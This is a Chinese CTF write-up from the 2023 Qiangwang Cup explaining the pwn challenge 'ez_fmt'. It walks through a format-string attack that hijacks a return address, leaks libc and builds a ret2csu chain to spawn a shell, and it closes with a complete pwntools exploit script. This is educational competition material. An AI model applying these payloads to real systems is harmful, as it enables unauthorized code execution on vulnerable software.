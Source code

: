 # 2023强网杯Pwn-WP


这里只补一道Pwn，就是强网先锋的ez_fmt。这题可以说非常可惜，在最后半小时想到正确的思路，可是没时间写完了。当然，这题的设限其实非常多。先不谈只能一次fmt的问题，光是0x30的读入大小就非常恶心了。因为如此小的读入让人直觉上不可能去构造ROP，而是往one_gadget的方向想。可是对于一个6字节的64位地址，3次hn写入再加上3个8Byte的地址填充早就超过0x30的大小了。因此，利用gadgets构造ROP才是真正的解法。

## ez_fmt

题目如下：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[88]; // [rsp+0h] [rbp-60h] BYREF
  unsigned __int64 v5; // [rsp+58h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  printf("There is a gift for you %p\n", buf);
  read(0, buf, 0x30uLL);
  if ( w == 0xFFFF )
  {
    printf(buf);
    w = 0;
  }
  return 0;
}
```

除了PIE保护全开。

首先要明白的一点是，只要w被修改为0，我们永远没有办法再次修改w。因为修改完w后，程序的唯一漏洞点就无法被访问了。因此，我们必须在修改w之前就改变程序运行流程，让其再次执行printf（显然一次fmt不可能利用）。

于是就只能劫持第二个printf的return address，这样w就修改不到了。具体的地址就是`leak addr - 0x8`。当然此时payload空间还有剩余，我们需要将libc地址一起泄露。

```python
payload = "%{}c%10$hn".format(0x10b0).encode()
payload += "%{}c%11$hn".format(0xffff-0x10b0).encode()
payload += "%19$p".encode()
payload = payload.ljust(0x20,b"a")
payload += p64(stack_addr-0x8)
payload += p64(0x404010)
p.recv()
p.send(payload)
```

这里返回地址可以改为很多，比如改为_start或者直接改到main。但是改到main的时候需要注意栈对齐的问题。

接着第二次printf就可以使用ret2csu构造system('/bin/sh')。这里需要注意由于printf的fmtstr还在栈上，需要多pop几次将前面脏数据先pop掉，接着直接放入/bin/sh和system即可。

```python
payload = "%{}c%8$hn".format(0x12ce).encode()
payload = payload.ljust(0x10,b"a")
payload += p64(stack_addr-0x8 - 0x150)  
payload += p64(0x00000000004012d3)
payload += p64(libc_base + next(libc.search(b"/bin/sh\x00")))
payload += p64(libc_base + 0x51cd0 + 0x2)
```

![getshell](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20231219172342054.png)

还是经验太少，利用手段太单一，不能灵活使用。exploit如下：

```python
from pwn import*
# context.log_level = "debug"
elf = ELF("./ez_fmt")
context.terminal=['tmux','splitw','-h']
libc = elf.libc
p = process("./ez_fmt")
# p = remote("47.104.24.40",1337)
p.recvuntil("0x")
stack_addr = int(p.recv(12),16)
print(hex(stack_addr))
payload = "%{}c%10$hn".format(0x10b0).encode()
payload += "%{}c%11$hn".format(0xffff-0x10b0).encode()
payload += "%19$p".encode()
payload = payload.ljust(0x20,b"a")
payload += p64(stack_addr-0x8)
payload += p64(0x404010)
p.recv()
p.send(payload)
p.recvuntil("0x")
libc_base = int(p.recv(12),16) - libc.sym["__libc_start_main"] - 243
print(hex(libc_base))
"""
0xe3afe execve("/bin/sh", r15, r12)
constraints:
  [r15] == NULL || r15 == NULL
  [r12] == NULL || r12 == NULL

0xe3b01 execve("/bin/sh", r15, rdx)
constraints:
  [r15] == NULL || r15 == NULL
  [rdx] == NULL || rdx == NULL

0xe3b04 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL
"""
one_gadget = libc_base + 0xe3afe
payload = "%{}c%8$hn".format(0x12ce).encode()
payload = payload.ljust(0x10,b"a")
payload += p64(stack_addr-0x8 - 0x150)  
payload += p64(0x00000000004012d3)
payload += p64(libc_base + next(libc.search(b"/bin/sh\x00")))
payload += p64(libc_base + 0x51cd0 + 0x2)
p.recv()
p.send(payload)

p.interactive()
```



---

> 作者: alextang  
> URL: https://alextang.top/articles/2023/12/qwb2023pwn/  


